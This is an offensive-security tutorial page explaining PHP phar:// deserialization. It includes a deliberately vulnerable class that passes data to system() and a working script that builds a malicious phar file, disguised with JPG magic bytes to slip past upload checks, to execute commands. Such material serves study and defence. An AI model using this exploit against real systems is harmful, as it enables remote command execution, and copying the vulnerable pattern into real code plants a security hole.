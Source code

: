 # phar:// deserialization

{{#include ../../banners/hacktricks-training.md}}

**Phar** files (PHP Archive) files **contain meta data in serialized format**, so, when parsed, this **metadata** is **deserialized** and you can try to abuse a **deserialization** vulnerability inside the **PHP** code.

The best thing about this characteristic is that this deserialization will occur even using PHP functions that do not eval PHP code like **file_get_contents(), fopen(), file() or file_exists(), md5_file(), filemtime() or filesize()**.

So, imagine a situation where you can make a PHP web get the size of an arbitrary file an arbitrary file using the **`phar://`** protocol, and inside the code you find a **class** similar to the following one:

```php:vunl.php
<?php
class AnyClass {
	public $data = null;
	public function __construct($data) {
		$this->data = $data;
	}

	function __destruct() {
		system($this->data);
	}
}

filesize("phar://test.phar"); #The attacker can control this path
```

You can create a **phar** file that when loaded will **abuse this class to execute arbitrary command**s with something like:

```php:create_phar.php
<?php

class AnyClass {
	public $data = null;
	public function __construct($data) {
		$this->data = $data;
	}

	function __destruct() {
		system($this->data);
	}
}

// create new Phar
$phar = new Phar('test.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub("\xff\xd8\xff\n<?php __HALT_COMPILER(); ?>");

// add object of any class as meta data
$object = new AnyClass('whoami');
$phar->setMetadata($object);
$phar->stopBuffering();
```

Note how the **magic bytes of JPG** (`\xff\xd8\xff`) are added at the beginning of the phar file to **bypass** **possible** file **uploads** **restrictions**.\
**Compile** the `test.phar` file with:

```bash
php --define phar.readonly=0 create_phar.php
```

And execute the `whoami` command abusing the vulnerable code with:

```bash
php vuln.php
```

### References



{{#ref}}
https://blog.ripstech.com/2018/new-php-exploitation-technique/
{{#endref}}

{{#include ../../banners/hacktricks-training.md}}
